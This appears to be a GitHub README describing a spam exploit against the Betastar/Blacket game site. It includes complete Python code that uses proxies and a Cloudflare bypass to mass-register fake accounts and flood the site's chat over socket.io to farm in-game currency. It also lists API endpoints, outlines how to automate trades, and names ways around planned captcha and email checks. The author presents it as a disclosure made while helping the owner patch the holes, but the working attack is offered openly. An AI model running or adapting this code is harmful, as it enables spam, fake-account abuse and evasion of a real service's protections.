 ## I (l2vy7) discovered a HUGE spam exploit on Betastar.
All Betastar/Blacket API endpoints are insecure, and everyone knows that.  
But now, since Betastar has a chat function, and its insecurity makes exploits very awful.  


### How it's made: TrollSense for Betastar
Basically, I made a separate (private) proxy generator, and copied over the proxies to proxies.txt in the folder, and set up a proxy looper.  
I also implemented a CloudFlare bypassing ```requests``` wrapper because I'm not waiting hours for Undetected ChromeDriver to work.  
Since all logins are ip-based, and each time you load a page in Betastar, it checks with the login information provider, you don't even have to work with any HTTP cookies or anything. Just direct IPs, you can even skip the login information checking process if you want.  
After that, I just loop through the proxies, make accounts with random names and the password "THEWORLDISONFIRE", check for invalid proxies, rinse and repeat.  
Then, I find existing accounts and extend the current accounts if the accounts file exists.  
Finally, I loop through the working ips with accounts linked to them, use a requests session to connect to the chat server via a socketio-python client and the current proxy, and emit "smes" with a set message attached.  
The funny thing is that each chat message gives you 1 "atom" (currency of Betastar), and you can trade them in almost the same way you use the chat, by connecting with socket.io. I don't have the time or patience to implement trading yet, but it goes like so:

the trade menu is almost handled the same way as the chat, you just emit ```trade``` with the value of the user you want to request, ```cancelTrade``` to cancel the trade, handle ```accepted``` for when the trade is accepted, handle ```tradeCancelled``` for when the trade is cancelled, etc.

a get request to ```/api/claim``` automatically claims a daily reward
a get request to ```/api/user?name=(username)``` lists the stats of a user (equivalent to ```f4``` in game for the api)
a get request to ```/api/news``` lists the news posts
a get request to ```/api/lcheck``` checks if you're logged in
a get request to ```/api/elements``` gets a list of all the buyable elements
a get request to ```/api/crates``` gets a list of all the buyable crates
a get request to ```/lib/api/config``` does nothing it seems unless you're the owner.
a post request to ```/api/sell/``` with the data ```element=(element)&quantity=(quantity)``` sells an element with a specified quantity

Xotic did send me, while we were talking over Discord, a list of all the endpoints. Unfortunately, I am busy and don't have the time to document ALL of them and what they do, but I do have the list of every endpoint in the API.

![image](https://user-images.githubusercontent.com/102484505/171060995-2f8df054-8ba4-46bf-a461-b03cd3827685.png)


### How it stopped being made: Communication with Xotic.
He will implement captchas (can be bypassed with 2captcha and/or API endpoints will be left vulnerable) on registration pages, along with possible email verification (can be bypassed by Tempmail APIs). However, the API endpoints may still be insecure. I will update this if necessary and will try to give Xotic instructions on how to fix it.
Though I'm not entirely sure if this will affect socket.io data or the registration API, I'm 99% sure he will do something to stop this from working.  

I just kept this here as a documentation on how vulnerable websites can be easily exploited.  
**I'm helping Xotic fix this. Please note that I meant no harm in making this exploit.**

## The full code
I know you skids want the code, so here we go.  
This took around 45 minutes to an hour to develop and proxy scraping took like 30 minutes.

```py
from requests.exceptions import *
from os.path import exists
from faker import Faker
import cloudscraper
import traceback
import requests
import socketio
import logging
import random
import string
import base64
import sys

fake = Faker()

ips = []

for x in open('proxies.txt', 'r').read().split('\n'):
    scraper = cloudscraper.create_scraper(
        browser={
            'browser': 'chrome',
            'platform': 'android',
            'desktop': False
        },
        disableCloudflareV1=True
    )

    try:
        resp = scraper.post("http://betastar.org/api/register/", headers = {"User-Agent" : fake.chrome()}, data=("username=" + ''.join(random.choices(string.ascii_uppercase + string.digits, k = 7)) + "&password=" + base64.b64encode("THEWORLDISONFIRE".encode("utf-8")).decode("utf-8") ), proxies={"http" : 'http://'+x})
        print('Account created.')
        ips.append(x)
    except ProxyError as e:
        pass
    except HTTPError as e:
        pass
    except TooManyRedirects as e:
        pass
    except Exception as e:
        pass

if exists('accounts.txt'):
    ips.extend(open('accounts.txt', 'r').read().split('\n'))

for x in ips:
    with open('accounts.txt', 'w') as x1:
        x1.write(x + '\n')
    session = requests.session()
    session.proxies = {"http" : "http://"+x}
    sio = socketio.Client(http_session=session)
    sio.connect(
        'http://betastar.org/chat/',
        transports='websocket'
    )
    sio.emit('smes', 'Insecure API endpoint test worked.')
    sio.disconnect()
```

## What happens next?

What Xotic is implementing now:
- Proxy blacklists (from the code of my proxy scraper)
- Cooldown spam mutes/bans
- Prevention of using the same IP for multiple accounts (1 alt maximum per IP)
- socket.io socket security

We've talked this over together and found this to be a good idea and good things to implement.  
Therefore, this exploit will be patched very soon. Don't worry, this is just a documentation of how the API COULD be exploited, and I have done nothing to ruin the economy or harm the website in any way.

**Some of this was made from what I posted on my pr ([here](https://github.com/XOTlC/Blacket/pull/51#issuecomment-1141480027))**
